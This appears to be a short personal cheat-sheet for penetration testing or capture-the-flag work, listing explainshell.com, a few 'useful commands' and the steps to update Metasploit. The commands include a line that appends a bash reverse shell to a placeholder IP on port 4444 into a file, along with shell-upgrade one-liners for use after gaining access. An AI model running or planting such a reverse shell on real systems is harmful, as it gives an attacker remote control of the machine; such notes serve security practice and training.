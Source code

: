 - Useful website:

https://explainshell.com/


- Uesful commands:

echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1' #" >> filename

SHELL=/bin/bash script -q /dev/null

python3 -c 'import pty; pty.spawn("/bin/sh")'

- How to update metasploit-framework

sudo apt update
sudo apt install metasploit-framework
sudo apt install gem
sudo gem install bundler
sudo msfdb reinit
sudo msfconsole

